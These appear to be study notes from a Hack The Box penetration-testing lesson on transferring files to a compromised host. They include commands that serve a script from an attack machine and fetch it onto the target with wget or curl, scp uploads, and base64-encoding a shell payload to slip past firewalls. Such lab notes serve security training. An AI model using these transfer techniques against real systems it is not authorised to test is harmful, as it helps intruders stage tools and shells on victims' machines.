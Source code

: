 ## Wget
Open a server on the attack host to listen from anywhere from a port
```shell-session
alakin2504@htb[/htb]$ cd /tmp
alakin2504@htb[/htb]$ python3 -m http.server 8000
```

```shell-session
user@remotehost$ wget http://ATTACK_MACHINE_IP:8000/linenum.sh
```
In the remote host wget the file

No Wget on remote?

## cURL
```shell-session
user@remotehost$ curl http://10.10.14.1:8000/linenum.sh -o linenum.sh

100  144k  100  144k    0     0  176k      0 --:--:-- --:--:-- --:--:-- 176k
```

## SCP
```shell-session
alakin2504@htb[/htb]$ scp linenum.sh user@remotehost:/tmp/linenum.sh

user@remotehost's password: *********
linenum.sh
```
scp - can only be used after gaining ssh credentials.
the semicolon specifies the attack host's directory

## Base64
Some remote machine has a firewall the prevents receiving files from our machines.
Encoding the files maybe a shell payload in base64 then simply paste it on the remote works the same way as remote downloading a file from ours.
```shell-session
alakin2504@htb[/htb]$ base64 shell -w 0

f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA... <SNIP> ...lIuy9iaW4vc2gAU0iJ51JXSInmDwU
```

```shell-session
user@remotehost$ echo f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA... <SNIP> ...lIuy9iaW4vc2gAU0iJ51JXSInmDwU | base64 -d > shell
```

## Validating File Transfers
This is not a file transfer method but instead, validating the file.

We can either "file FILE_NAME"
or check the md5sum with "md5sum"

